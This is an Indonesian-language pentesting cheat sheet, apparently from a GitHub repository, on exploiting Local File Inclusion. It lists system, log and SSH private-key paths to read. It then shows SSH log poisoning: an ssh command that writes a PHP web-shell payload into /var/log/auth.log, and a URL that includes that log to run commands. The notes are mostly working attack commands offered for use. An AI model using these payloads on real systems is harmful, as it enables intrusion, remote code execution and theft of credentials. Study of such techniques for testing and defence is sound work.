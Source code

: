 # Local File Inclusion
- [ ] Cek `/etc/passwd` terus cek apakah pada direktori home bisa kita lihat ssh keys, contoh `/home/mrdoel/.ssh/id_rsa` 
- [ ] Cek `../../../../etc/apache2/envvars` dan cek apakah ada direktori log seperi `../../../../var/log/apache2/access.log` ini kasusnya pakai apache2, kalau nginx saya nda tau kok tanya saya. 
- [ ] Adalagi kasus LFI dimana berhubungan dengan log yang ada SMTP, cek apakah Port Email Seperti POP3, SMTP, IMAP terbuka

## SSH Log Poisoning
Jika pada saat menemukan LFI cek file `/var/log/auth.log` kalau ada info tentang SSH pada file tersebut maka kita bisa melakukan SSH Log Poisoning
```
ssh '<?php system($_GET['c']); ?>'@192.168.56.148
```
Maksud perintah diatas adalah untuk memasukkan kode `<?php system($_GET['c']); ?>` ke dalam file `/var/log/auth.log` sehingga kita bisa mengaksesnya dengan cara berikut

```
http://site.com/index.php?file=../../../../var/log/auth.log?c=ls
```